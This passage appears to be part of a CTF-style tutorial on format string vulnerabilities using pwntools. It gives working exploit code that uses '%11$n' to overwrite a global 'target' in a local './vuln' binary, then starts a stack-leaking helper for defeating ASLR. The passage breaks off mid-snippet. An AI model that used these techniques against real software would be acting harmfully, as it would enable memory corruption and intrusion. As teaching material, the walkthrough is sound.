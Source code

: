 ```python
p = process("./vuln")
p.sendline('aaaa' + ' %11$x')
p.interactive()
```

If we change the `%11$x` to `%11$n`, `printf` will attempt to write to the
number of printed characters to the address 0x61616161, i.e., `aaaa`.

At this point, we know:

1.  this program has a format string vulnerability,
2.  we have control over the format string, and
3.  we can control some values on the stack.

If we use "%n" as part of our input and are clever in how we construct our
format string, then we can directly control where on the stack `printf` looks
for the `%n` address argument. That is, we can control the address of the write.
For this challenge, we want to change the value of the global variable `target`
and, thus, we want our `%n` to trigger a write to `target`. Fortunately, we do
not need to worry about what value gets written there (as long as it is not
zero).

There are many ways to figure out the address of `target`---for example
`objdump -t binary | grep target`---but let's use another pwntools feature to
help us.

Putting it all together, we have the following solution:

```python
b=ELF("./vuln")

log.info("target at: " + hex(b.symbols.target))

exploit_str = pack(b.symbols.target) + ' %11$n'

p = process("./vuln")
p.sendline(exploit_str)
p.interactive()
```

## Format Strings as Information Leaks

Format string vulnerabilities aren't just useful for writing to arbitrary memory locations - they're also powerful tools for information leaks, which can be critical for defeating ASLR and building ROP chains.

### Systematic Stack Leaking

When exploiting a format string vulnerability, one of the first steps should be systematically leaking values from the stack. Instead of using a crude approach like `%x %x %x %x`, we can use the direct parameter access feature of format strings:

```python
from pwn import *

# Create a systematic function to leak values
def leak_params(count=15):
    values = []
    for i in range(1, count+1):
        p = process('./format_vuln')  # Start a new process each time
        p.sendline(f'%{i}$p')         # Request the i-th parameter
        p.recvuntil('You said: ')
        value = p.recvline().strip()
        values.append(value)
        p.close()
    return values

```